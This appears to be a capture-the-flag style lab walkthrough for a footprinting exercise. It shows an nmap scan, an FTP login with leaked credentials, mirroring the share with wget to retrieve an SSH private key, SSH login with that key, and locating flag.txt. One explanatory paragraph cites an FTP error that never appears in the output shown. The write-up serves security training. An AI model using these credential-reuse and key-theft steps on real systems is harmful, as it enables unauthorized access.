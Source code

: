 # Footprinting Lab - Easy

We were commissioned by the company `Inlanefreight Ltd` to test three different servers in their internal network. The company uses many different services, and the IT security department felt that a penetration test was necessary to gain insight into their overall security posture.

The first server is an internal DNS server that needs to be investigated. In particular, our client wants to know what information we can get out of these services and how this information could be used against its infrastructure. Our goal is to gather as much information as possible about the server and find ways to use that information against the company. However, our client has made it clear that it is forbidden to attack the services aggressively using exploits, as these services are in production.

Additionally, our teammates have found the following credentials "ceil:qwer1234", and they pointed out that some of the company's employees were talking about SSH keys on a forum.

The administrators have stored a `flag.txt` file on this server to track our progress and measure success. Fully enumerate the target and submit the contents of this file as proof.

## Walkthrough

```
└─$ nmap -sV 10.129.214.52
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-13 00:48 EST
Nmap scan report for 10.129.214.52 (10.129.214.52)
Host is up (0.26s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
2121/tcp open  ftp
```

We found that port 2121 for ftp is open, so first we check this

```bash
ftp 10.129.214.52 2121
#then we use the credential found above ceil:qwer1234
Connected to 10.129.214.52.
220 ProFTPD Server (Ceil's FTP) [10.129.214.52]
Name (10.129.214.52:kali): ceil
331 Password required for ceil
Password: 
230 User ceil logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||61558|)
150 Opening ASCII mode data connection for file list
226 Transfer complete
```

It seems like you are encountering a permission issue when trying to run the `ls` command in an FTP session. The error message "setsockopt SO\_DEBUG (ignored): Permission denied" indicates that there might be a problem with setting a socket option related to debugging, but this message can typically be ignored as it doesn't directly relate to the `ls` command.

so we try another command to get all the file inside ftp.

```bash
wget -m --no-passive ftp://ceil:qwer1234@10.129.214.52:2121/
```

This Bash command is using the `wget` utility to recursively download files from an FTP server. Let's break down the command and its options:

* `wget`: This is the command-line utility used for downloading files from the internet. It supports various protocols, including FTP, HTTP, and HTTPS.
* `-m` or `--mirror`: This option tells `wget` to mirror the directory structure and download all files recursively. It means it will download all files and subdirectories from the specified FTP server.
* `--no-passive`: This option disables passive FTP mode. Passive mode is used for data connections in FTP, but sometimes it can cause issues depending on the network configuration. Disabling passive mode might help if you're experiencing connectivity problems.
* `ftp://ceil:qwer1234@10.129.214.52:2121/`: This is the URL of the FTP server you want to download from. It includes the protocol (`ftp://`), followed by the username (`ceil`) and password (`qwer1234`) for authentication, then the server's IP address (`10.129.214.52`) and port (`2121`), and finally, the path (`/`) from which you want to download files.

Putting it all together, the command `wget -m --no-passive ftp://ceil:qwer1234@10.129.214.52:2121/` will recursively download all files and directories from the FTP server located at `10.129.214.52`, using the username `ceil` and password `qwer1234`, from port `2121`, while disabling passive mode for FTP connections.

Now go to the result .ssh directory and change the id\_rsa permission

```bash
cd 10.129.214.52:2121 
ls -al
cd .ssh
chmod 600 id_rsa
```

then try to login SSH with the id\_rsa

```bash
ssh -i id_rsa ceil@10.129.214.52
```

after that find the flag and done :).

```bash
find / -name flag.txt 2>/dev/null
cat /home/flag/flag.txt
```
